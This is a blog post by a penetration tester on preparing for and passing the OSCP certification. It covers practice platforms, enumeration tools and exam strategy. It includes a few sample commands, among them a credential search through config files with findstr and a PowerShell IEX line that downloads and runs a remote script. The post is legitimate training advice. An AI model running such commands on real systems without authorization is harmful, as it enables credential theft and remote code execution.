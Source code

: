 ```yaml
---
slug: oscp-journey/
title: How to Pass the OSCP
date: 2019-12-04
category: opinions
subtitle: The meaning of Try Harder
tags: challenge, ethical-hacking, pentesting, security, training, exploit
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/cover_dcbd71.webp
alt: 'Man sitting facing laptop. Photo by Clint Patterson on Unsplash:
  https://unsplash.com/photos/dYEuFB8KQJk'
description: The OSCP exam is one of the hardest certifications out there
  for pentesters. Here we show you how you can prepare yourself
  to do your best on it.
keywords: OSCP, Business, Information, Security, Protection, Hacking,
  Best Practices, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, OSCP - Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/dYEuFB8KQJk
---
```


Before taking the exam I already had years of work work experience as a
penetration tester at `Fluid Attacks`. So, I already had the knew how to
perform a penetration test and how to build a technical report of my
findings. However, if you don’t have any work experience on the field or
you’re just starting out, this post may help you pass your exam.

The most important phase on a penetration test is scanning. Here you
will use tools to get information about your target, such as its
operating system, open ports, the services running on those ports and
their versions, whether they have public vulnerabilities or not, and
whether there is a public exploit for those vulnerabilities. Since
`metasploit` is restricted to only **ONE** machine (this includes the
auxiliary modules too) you need to be familiar with tools such as:

- [Nmap](https://nmap.org/)

- [Dirbuster](https://tools.kali.org/web-applications/dirbuster)

- [Nikto](https://tools.kali.org/information-gathering/nikto)

- [Gobuster](https://tools.kali.org/web-applications/gobuster)

- [Dirsearch](https://github.com/maurosoria/dirsearch)

- [enum4linux](https://tools.kali.org/information-gathering/enum4linux)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

The only way to do this is by using them continuously until you develop
a solid enumeration strategy. To help with this there are services like
[hackthebox](https://www.hackthebox.eu/) and
[vulnhub](https://www.vulnhub.com/), where you can find vulnerable
machines on which to test your skills.

<div class="imgblock">

![owned-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/hackthebox_efxh5c.webp)

</div>

Once there you can also practice the *gaining access* phase and your
privilege escalation strategies with multiple operating systems and
vulnerabilities that resemble the ones in real-life scenarios. You would
be surprised by how many times I’ve encountered a vulnerability on
`hackthebox` first and then on a real-life service. The tools and
resources that I got the most from for privilege escalation were:

- [linenum](https://github.com/rebootuser/LinEnum)

- [windows exploit
  suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

- [searchsploit](https://github.com/offensive-security/exploitdb/blob/master/searchsploit)

- [JAWS](https://github.com/411Hall/JAWS)

- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

- [g0tmilk Linux privesc
  blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [absolomb Windows privesc
  blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

I recommend hacking all the live machines that you can without any help
and get some points on the platform. Doing this helps you get used to
the tools and increases your confidence in using them when you take the
exam. If you can’t hack a machine and it gets removed, you can check the
walkthrough by
[Ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) and
learn new things. You can learn stuff from these videos even for
machines you did root. Do this for at least one month or, if you have no
work experience whatsoever, two months.

## Attacking the Lab

I had a month of lab access, so the approach I took to the course and
the lab was to split them by days One concentrating on the guide and
taking notes of things that I didn’t know, and another day for attacking
the lab machines.

When you are working on the machines, also work on your time management
skills. Do not spend too much time on one machine when you can try
another one. Time management becomes very important when you are taking
your exam.

Before your lab access ends, be sure that you fully understand how to do
a `buffer overflow`. Take notes of every step, copy all the commands
that you need, and also how to get the `return address`.

## Post Lab

Here you want to gather the most information about the last two steps.
We are going back to `hackthebox` but instead of doing the active
machines we are going to do the ones from [this
list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0)
(there are also some from `vulnhub`).

<div class="imgblock">

![oscp-like-machines](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330963/blog/oscp-journey/url-oscp_lgqddx.webp)

</div>

Try to conquer those machines listed without the aid of walkthroughs.
When you finish one, look at these walkthroughs to check whether there
is another way in, if so then also practice it.

The day before the exam, I did nothing. Your body and mind need to rest
and you should not try to cram before the test. Eat your favourite foods
whatever they may be. Treat yourself to a well-deserved dessert, watch
movies, and series that you perhaps ignored when you focused on your
studies. The point is to de-stress so you’re fresh when you take the
exam.

## The Exam

The task is to gain administrative access to the machines in the
network. There are 5 machines, each is worth a certain number of points
if you complete it and you need at least `70` points to pass the exam.
The machine points are distributed as:

- 25 points Buffer Overflow

- 25 points machine

- Two 20 points machines

- 10 points machine

I started with the `25 points BoF` machine while I scanned all the other
ones. I did this because I knew that I could follow the guide
step-by-step and get the BoF points. My scanning strategy was to run
`nmap` with these options:

**nmap with options.**

``` bash
nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
```

Also, I pinged the machine in order to view its operative system. If the
`TTL` (Time to Live) is `64` then it is a `Linux` machine and if it is
`128` then it’s a `Windows` machine. When the port scan finished I
checked every web service and used a web crawler like `dirbuster` or
`dirsearch`.

After finishing the `BoF` machine, I started hacking the machines with
all the information that I had collected. I ended up going down rabbit
holes trying to gain admin privileges on the 25-pointer machine. Because
of the time the 25-point machine was taking, I quickly decided to switch
to both the 20-point and finally, the 10-pointer machine.

For privilege escalation I first checked the operative system version
and kernel, this can be done by running:

``` bash
uname -a #linux
> systeminfo #windows
```

If it was `Linux` I checked for `sudo` rights running processes, and for
`SUID` executables. There is a tool named `linenum` but it’s too verbose
and I like to search for things manually.

``` bash
sudo -l
ps -aux
find / -perm -u=s -type f 2>/dev/null
```

If it was `Windows`, I checked for the `Groups.xml` file (usually it has
administrative user and password information there), installed software
and tried to use `powershell` to run `Windows` exploits. When it comes
to `Windows`, most of the time the way of escalating privileges is
through a vulnerability in the `OS` version or in an installed program
version.

``` bash
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

I finished my test in less than 10 hours with 4 admins and 1 user for a
little more than `75` total points. The mistake that I made was to be
lazy with my screenshots, so I needed to redo all the machines to get
all of my evidences. **DO NOT DO THIS\!** The next day I did my
technical documentation, the advice here is to put everything that you
did from the *scanning* phase up to the *privilege escalation* phase.
Also, if you modified an exploit (even if is only one line) put it on
the report and mark what you modified.

<div class="imgblock">

![oscp-win](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330964/blog/oscp-journey/oscp-win_llivv3.webp)

</div>

## Be prepared and do your best

The OSCP is a difficult certification, but it’s not impossible. The
steps before the lab are going to help you get the most out of the
course and to establish your own routine when it comes to doing a
penetration test. The enumeration and scanning phases are the most
important ones in the whole process because you can spend hours going
down rabbit holes if you do not do these steps properly. Mental
toughness is needed to pass this test, so be prepared to think quickly
and creatively, daisy-chaining vulnerabilities, and rest when you need
it. The discord groups of hackthebox and OFFSEC are at your disposal to
answer your questions or give you hints where you need them. Try harder.
